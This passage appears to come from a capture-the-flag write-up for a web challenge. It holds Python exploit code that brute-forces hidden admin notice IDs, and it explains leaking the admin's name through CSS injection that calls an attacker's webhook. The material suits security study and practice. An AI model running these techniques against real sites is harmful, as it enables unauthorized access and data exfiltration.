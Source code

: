 ```py
# Login again to get new token
res = login(user, passwd).json()
print(res)
TOKEN=res["accessToken"]
print("accessToken:", TOKEN)


def getAdminNotice(noticeURL, accessToken=TOKEN):
    url = baseURL + "/admin/notice/" + noticeURL
    sendCookie = {"accessToken": accessToken}
    r = requests.get(url, cookies=sendCookie)
    return r

def getAllNotice(accessToken=TOKEN):
    url = baseURL + "/admin/notice"
    sendCookie = {"accessToken": accessToken}
    r = requests.get(url, cookies=sendCookie)
    res = r.text
    posts = re.findall("/admin/notice/[0-9a-f]{24}", res)
    return posts

notice = getAllNotice(TOKEN)[0][14:]
# notice[7], notice[-1]
characters = "abcdef1234567890"
for first in characters:
    for second in characters:
        newNotice = notice[0:7] + first + notice[8:-1] + second
        res = getAdminNotice(newNotice).text
        if '404' not in res:
            print(newNotice, res)
```

Now we need to find the first part of the flag. For this we use CSS Injection in the `personalColor` field. We can insert whatever CSS want in the `personalColor`. We can use it to exfiltrate the username of the admin (which is the first part of the flag) using the `input[class=user][value^=FLAG]` selector and then sending a request to our webhook using `background: url()`.

exploit.py
```py
import requests
import re
from os import urandom

TOKEN=""
baseURL = "https://b2c742d9f8b3584414958c4e.deadsec.quest"

def register(username, password, personalColor):
    url = baseURL + "/auth/register"
    sendJSON = {"username": username, "password": password, "personalColor": personalColor}
    r = requests.post(url, json=sendJSON)
    return r

def login(username, password):
    url = baseURL + "/auth/login"
    sendJSON = {"username": username, "password": password}
    r = requests.post(url, json=sendJSON)
    return r

def write(title, content, accessToken=TOKEN):
    url = baseURL + "/post/write"
    sendJSON = {"title": title, "content": content}
    sendCookie = {"accessToken": accessToken}
    r = requests.post(url, json=sendJSON, cookies=sendCookie)
    return r
```